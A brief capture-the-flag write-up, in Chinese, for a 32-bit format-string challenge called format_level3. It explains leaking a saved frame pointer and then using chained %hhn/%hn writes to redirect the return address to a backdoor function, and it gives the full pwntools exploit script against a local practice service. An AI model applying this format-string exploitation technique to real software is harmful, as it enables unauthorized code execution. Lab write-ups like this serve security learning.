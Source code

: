 # format level3

## 文件分析

下载`format_level3`, NX on, PIE off, Canary on, RELRO full  
ghidra分析为32位程序

## 解题思路

和level2类似，存在后门，但是输入的str放到了.bss上

踩过的坑：16字节还想把栈迁移到.bss上？直接爆了（栈上的空间本来也不够）

正解：通过ebp+4来利用ebp间接改写返回地址

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 39665)

# payload 1
sh.sendline(b'3')
sh.sendline(b'%6$p')

prevEbp = int(sh.recvuntil(b'\nBut', True)[-10:], 16) # ebp -> prevEbp -> prevPrevEbp
retAddr = prevEbp + 4

# payload 2
sh.sendline(b'3')
sh.sendline(f'%{retAddr & 0xff}d%6$hhn'.encode())     # ebp -> prevEbp -> retAddr

# payload 3
sh.sendlineafter(b'ice:',b'3') # 不加after会导致所有输出全部挤在一起，原因未知
sh.sendline(f'%{0x9317}d%14$hn'.encode()) # retAddr: main -> success

# payload 4
sh.sendlineafter(b'ice:', b'4') # let it return

sh.interactive()
```

Done.
